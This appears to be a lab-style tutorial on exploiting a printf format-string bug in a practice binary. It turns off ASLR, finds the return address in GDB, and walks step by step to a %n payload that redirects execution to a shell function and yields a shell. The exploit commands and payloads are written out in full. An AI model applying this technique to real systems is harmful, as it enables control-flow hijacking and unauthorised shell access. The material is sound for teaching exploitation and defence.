 Disable ASLR:

    sudo sysctl kernel.randomize_va_space=0

With ASLR disabled, lets take a look at the binary.

    b printf
    stack 20

We want to gain control of the stored return address, which is at 0xffffceac.
Just like in the example, we can provide an address and use the %n format to
write to that address. Let's find where our address falls.

    AAAA...%1$x

Thinking about our stack frame, the arguments for printf begin at 0xffffce60,
just above the return address back to vuln. If 0xffffce60 is our format string,
counting backwards, we should find AAAA at argument 5 after that.

    AAAA...%5$x

Awesome. We wanted to overwrite 0xffffceac, so let's try that.

    python -c "print '\xac\xce\xff\xff...%5\$x'" | ./format

Ok, now we want to write to that address using the %n modifier. We can use the
minimum width modifier we saw before to do that. Let's try writing 10 there, and
check out what happens in GDB.

    b printf
    r < <(python -c "print '\xac\xce\xff\xff%10c%5\$n'")
    finish

Well, we wanted to write 10 (0xa), but wrote 14 (0xe). Why? The address counts
as 4 bytes, since it ends up getting printed. Thus, to write a particular value,
we must use:

> what_we_want - bytes_already_written

    b printf
    r < <(python -c "print '\xac\xce\xff\xff%6c%5\$n'")
    finish

The address of shell is at 0x080484cb (disass shell). This is 134513867 - 4 =
134513863

    b printf
    r < <(python -c "print '\xac\xce\xff\xff%134513863c%5\$n'")
    finish

Wow... That's a lot of printing. It worked though!

    python -c "print '\xac\xce\xff\xff%134513863c%5\$n'" | ./format

Huh... That didn't work. We have to tell our shell we want to continue typing
after python is done.

    {python -c "print '\xac\xce\xff\xff%134513863c%5\$n'"; cat - } | ./format
    ls
    whoami
